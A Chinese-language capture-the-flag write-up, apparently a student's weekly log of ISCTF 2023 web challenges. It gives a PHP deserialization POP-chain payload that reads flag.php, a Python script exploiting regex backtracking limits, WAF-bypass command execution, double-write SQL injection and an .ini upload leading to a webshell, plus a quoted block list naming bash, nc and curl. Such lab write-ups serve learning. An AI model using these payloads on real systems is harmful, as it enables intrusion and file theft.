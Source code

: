 ## 本周重点
### 1.知识分享
## 圣杯战争!!!
打开题目看到
```
 <?php
highlight_file(__FILE__);
error_reporting(0);

class artifact{
    public $excalibuer;
    public $arrow;
    public function __toString(){
        echo "为Saber选择了对的武器!<br>";
        return $this->excalibuer->arrow;
    }
}

class prepare{
    public $release;
    public function __get($key){
        $functioin = $this->release;
        echo "蓄力!咖喱棒！！<br>";
        return $functioin();
    }
}
class saber{
    public $weapon;
    public function __invoke(){
        echo "胜利！<br>";
        include($this->weapon);
    }
}
class summon{
    public $Saber;
    public $Rider;

    public function __wakeup(){
        echo "开始召唤从者！<br>";
        echo $this->Saber;
    }
}

if(isset($_GET['payload'])){
    unserialize($_GET['payload']);
}
?> 
```
分析可得链子为summon→artifact→prepare→saber，分别是反序列化调用wakeup方法，然后echo会调用tostring方法我们进入他所在的类，然后new一个类时会调用get函数，在get所在类有functioin()，当函数调用时会触发invoke方法，最后include伪协议读取flag
```
$a=new summon;
$a->Saber=new artifact;
$a->Saber->arrow=new prepare;
$a->Saber->excalibuer = &$a->Saber->arrow;
$a->Saber->excalibuer->release=new saber;
$a->Saber->excalibuer->release->weapon="php://filter/read=convert.base64-encode/resource=flag.php";
echo serialize($a);
```
得到flag的base编码
![67f38c38f97e321aa6e0ebeff60f62e9.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700998694455-47921322-ef87-42b6-ac44-4787c03d4fe3.png#averageHue=%23fcfbfb&clientId=u7fd39338-1816-4&from=paste&height=687&id=u0ce63d26&originHeight=859&originWidth=1902&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=146252&status=done&style=none&taskId=u02a3f32d-e650-4628-865d-e811f4f4ed9&title=&width=1521.6)
解得flag
![c22f114982a91f803eb894718e432e64.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700998808568-7fdbb2f0-ac59-4d1c-bf94-25c9373d7851.png#averageHue=%23212c37&clientId=u7fd39338-1816-4&from=paste&height=408&id=u21106ca3&originHeight=510&originWidth=950&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=22342&status=done&style=none&taskId=u60455c78-2320-49cc-9801-5314e51344c&title=&width=760)
## where_is_the_flag
打开题目看到给了一句话，直接蚁剑连
![19f34d810b33be4ed7f6fcd3abb3f0ce.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700998904595-0e13d91a-9c00-48c7-9327-ccd46994ae62.png#averageHue=%23fefdfb&clientId=u7fd39338-1816-4&from=paste&height=172&id=u32e3dc8a&originHeight=215&originWidth=608&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=13144&status=done&style=none&taskId=u1152ba98-0163-48c5-a743-5c6dabdf3f1&title=&width=486.4)
![2b5810a89406180696b3821999771983.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700998987029-1bc09329-63c9-4b1d-aa26-e95ddf706d91.png#averageHue=%23eeeeee&clientId=u7fd39338-1816-4&from=paste&height=531&id=ud402465e&originHeight=664&originWidth=955&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=44309&status=done&style=none&taskId=ub4d847cd-8b27-482c-b29b-8b122edf237&title=&width=764)
进入shell找flag
![ada30b9ca6170a07acc301c0ad2261c6.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701000653393-6845856e-db70-4de1-a167-b7afc39042b5.png#averageHue=%23060606&clientId=u7fd39338-1816-4&from=paste&height=127&id=u285ce64e&originHeight=159&originWidth=676&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=9772&status=done&style=none&taskId=uae5efa0f-2e6b-4bbe-a9d8-1c64b8c00dc&title=&width=540.8)
![f13266d02b5004a793998b4b82c81a4d.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701000625875-e6a02711-f832-4363-8fb1-272e28dd5cb6.png#averageHue=%23050404&clientId=u7fd39338-1816-4&from=paste&height=138&id=u8549d862&originHeight=172&originWidth=669&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=9413&status=done&style=none&taskId=u33c71831-cea9-4f38-8828-4898e1b41b5&title=&width=535)
![8f664251f1b5298aa8e2fb97abef092f.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701000664372-f44defab-ca0b-4130-8ca3-bd4c7c04767e.png#averageHue=%23020202&clientId=u7fd39338-1816-4&from=paste&height=313&id=u0257a82d&originHeight=391&originWidth=547&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10630&status=done&style=none&taskId=uefb8f03a-dd0b-4cda-8771-c07fc7d3e6e&title=&width=438)
![6b90a42fab31e937dd262c16cb87d9a5.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701000681239-12fa9a29-279b-46c5-8a37-b9045d7e74e3.png#averageHue=%23070606&clientId=u7fd39338-1816-4&from=paste&height=141&id=u5ebcd8db&originHeight=176&originWidth=1242&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14915&status=done&style=none&taskId=u66b5125b-3a3e-4a8b-b1e9-983fb7c9f0b&title=&width=993.6)
得到flag：ISCTF{a8144b4e-d321-4b18-b6e0-f8f4319365d5}
## 绕进你的心里
看到题目
![d5f058ff66d272063b63a301c0908b3a.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701001011891-504cab72-c6f8-46c7-bb8c-a4b4439bf15a.png#averageHue=%23fefdfd&clientId=u7fd39338-1816-4&from=paste&height=470&id=uee6c3545&originHeight=588&originWidth=677&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=50146&status=done&style=none&taskId=u5a437379-a24e-4412-b0e9-01317667a2e&title=&width=541.6)
和之前一个比赛一样，正则回溯次数限制，然后MD5和数字正则都用数组绕过即可
```
import requests
url="http://43.249.195.138:22390/?hongmeng[]=1&shennong[]=2&zhurong[]=3"
data={
    'pan[gu':'very'*250000+'2023ISCTF'
}
r=requests.post(url,data=data)
print(r.text)
```
得到flag
![f6860f4b5fa9a131f58f16f92b83cc10.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701001416503-e7f1ff54-1b95-475c-b2e3-fe894d9bae1c.png#averageHue=%231f1d1c&clientId=u7fd39338-1816-4&from=paste&height=33&id=u206fa4d2&originHeight=41&originWidth=871&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3510&status=done&style=none&taskId=ufbbc3576-aabf-478f-92c4-a1767f3186a&title=&width=696.8)
## wafr
康康题目
```
 <?php
/*
Read /flaggggggg.txt
*/
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);

if(preg_match("/cat|tac|more|less|head|tail|nl|sed|sort|uniq|rev|awk|od|vi|vim/i", $_POST['code'])){//strings
    die("想读我文件？大胆。");
}
elseif (preg_match("/\^|\||\~|\\$|\%|jay/i", $_POST['code'])){
    die("无字母数字RCE？大胆！");
}
elseif (preg_match("/bash|nc|curl|sess|\{|:|;/i", $_POST['code'])){
    die("奇技淫巧？大胆！！");
}
elseif (preg_match("/fl|ag|\.|x/i", $_POST['code'])){
    die("大胆！！！");
}
else{
    assert($_POST['code']);
} 
```
没有过滤命令执行函数，直接system("ls /")看到flag在根目录
![790e27de08b948e50b7104dfa2d10036.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701001764644-cab4c4fb-3bc2-4c53-ae94-b60861aac5fa.png#averageHue=%23fdfbfa&clientId=u7fd39338-1816-4&from=paste&height=484&id=u98174186&originHeight=605&originWidth=1361&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=83334&status=done&style=none&taskId=u36ac6345-3db7-4f7a-88a1-b2d82a63619&title=&width=1088.8)
但是cat和flag都过滤了，我们用‘’和/f*来绕过得到flag
![7e808de62dedee7a7f41397dd10058de.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701001845132-342baa12-7384-4ba5-a4c7-3b5ea737d0d3.png#averageHue=%23fdfbfb&clientId=u7fd39338-1816-4&from=paste&height=236&id=u60ed3e50&originHeight=295&originWidth=1448&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47401&status=done&style=none&taskId=u95610519-baa8-4ef0-aca4-45d280645cb&title=&width=1158.4)
## easy_website
打开题目看到登录界面
![70b6d00eb6ad73890e7d1ad6abcee176.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996469805-5f43ac5a-78a4-4dcc-a845-6265a262c072.png#averageHue=%233b4f4d&clientId=ude32f381-2c81-4&from=paste&height=456&id=u41ee4560&originHeight=570&originWidth=489&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=358416&status=done&style=none&taskId=ub689abea-43a1-4371-bfa8-c21a5937f70&title=&width=391.2)
尝试admin/admin可以登录但没有flag
尝试sql注入发现过滤了很多东西
![ee39bf3f81deb2ef694541f10664f966.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996547112-d9a0d189-7cae-4f63-8661-d8b361f212a1.png#averageHue=%23375857&clientId=ude32f381-2c81-4&from=paste&height=442&id=uf078ce28&originHeight=553&originWidth=488&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=369476&status=done&style=none&taskId=uaefaa60a-4a50-4228-ae38-180372bc079&title=&width=390.4)
然后发现有双写注入和空格过滤
![70cc5d1f5d55dae748bea15cf01df3bf.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996605685-5785fe59-9c86-40b9-90c6-119c6e516984.png#averageHue=%23263942&clientId=ude32f381-2c81-4&from=paste&height=369&id=u7d0e459e&originHeight=461&originWidth=476&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=288615&status=done&style=none&taskId=u4964df23-6b68-406d-8e12-e3657278ffc&title=&width=380.8)
查回显发现or也被过滤了
![a744bfd929dfb1c27c7a5900a8cd1c66.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996630066-93714deb-2c2e-481e-874e-424c314b4333.png#averageHue=%233e534e&clientId=ude32f381-2c81-4&from=paste&height=482&id=ua5615430&originHeight=602&originWidth=491&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=409961&status=done&style=none&taskId=ueb4af81e-9df2-43d2-a233-39f2a0df162&title=&width=392.8)
发现可以联合注入
![44300137fde635512bc1b617b06f6591.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996676042-99a88791-8d1a-4c1b-857c-ee7003069f84.png#averageHue=%23375658&clientId=ude32f381-2c81-4&from=paste&height=412&id=ubf2eed50&originHeight=515&originWidth=472&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=306998&status=done&style=none&taskId=u09f958df-1918-452c-9039-eba7497838a&title=&width=377.6)
联合注入查库
![1515a1d3e51d793e0296502005aee1c8.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996711462-bd86e726-9a65-4c6b-8dc2-bfc338731e50.png#averageHue=%23385657&clientId=ude32f381-2c81-4&from=paste&height=400&id=u18931379&originHeight=500&originWidth=432&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=274308&status=done&style=none&taskId=u9a22a396-b4f2-490e-ac86-ad4d1ac9131&title=&width=345.6)
最后尝试注入猜表名password无结果，但passwoorrd找到flag
![f05f01b53ea64128653e692f99fb6faf.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700996802112-f790c578-bc5a-4921-90e2-3f2a62ea75c9.png#averageHue=%23385556&clientId=ude32f381-2c81-4&from=paste&height=427&id=u6efcefca&originHeight=534&originWidth=475&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=327006&status=done&style=none&taskId=u18182e0e-bdb0-48d8-9481-cdf418a78ae&title=&width=380)
## ez_ini
看题目可知为ini文件上传，但是按一般方法还是失败最后通过base绕过了
![3e700ee633bc789014321a7e62538563.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701002633944-3fac9057-5e47-4464-8239-41a56f98d892.png#averageHue=%23cca06b&clientId=u7fd39338-1816-4&from=paste&height=71&id=u8f8e6fc5&originHeight=89&originWidth=846&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6208&status=done&style=none&taskId=uc346be10-0950-4d05-9f47-5415f53c3cb&title=&width=676.8)
![f946f996ae56175080224f0b49d2b794.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701002643472-994740cd-7001-4f90-a13f-3ba54221b0c3.png#averageHue=%231b2631&clientId=u7fd39338-1816-4&from=paste&height=259&id=u7491bbe9&originHeight=324&originWidth=631&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=4307&status=done&style=none&taskId=ube940564-9d23-40cf-ba97-c3cd85f8f8e&title=&width=504.8)
![8b4d7e6905ef33fcdba3b110368aa8d5.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701002651042-94bdbf7b-c5a4-44aa-ab1e-cd788140315e.png#averageHue=%23c1945f&clientId=u7fd39338-1816-4&from=paste&height=55&id=u923db03a&originHeight=69&originWidth=501&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=4586&status=done&style=none&taskId=u0c016754-cb0a-4f96-912e-0dc11b678ea&title=&width=400.8)
![347eeb6c477e15f78308f8fa141b4743.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701002660047-88784b80-e379-46a8-a015-69b1f7ba6c28.png#averageHue=%23eeeeee&clientId=u7fd39338-1816-4&from=paste&height=516&id=ub3227ef9&originHeight=645&originWidth=959&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=45061&status=done&style=none&taskId=uc90ba95a-5783-40d8-a087-27afb28e9c2&title=&width=767.2)
成功链接，打开shell得到flag
![4cabe52f9f929d4115a34b0925a1f3b6.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701002696188-1e89ceb0-166b-4f55-8274-91df491a7cec.png#averageHue=%23030202&clientId=u7fd39338-1816-4&from=paste&height=374&id=uf325ede4&originHeight=468&originWidth=562&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15016&status=done&style=none&taskId=u71f30d30-ebfc-4328-9e50-59c56adbc5b&title=&width=449.6)
## 总结
这周打了ISCTF和a&d联赛，ad给密码和misc给ak了，然后pwn那个应该是二面题，改了好几次payload终于知道当时为什么没有出解，还是格式不太规范，挺感慨的，isCTF前两天Webak然后misc也顺风顺水，甚至冲到总榜第四了，但是随着题目越来越难，pwn和re题开始站多，排名掉了很多，这次is，Web上感觉要么一把嗦，要么做不出，但是misc在各种查阅资料和脚本爷们的脚本编写下，我们没有misc手却快把


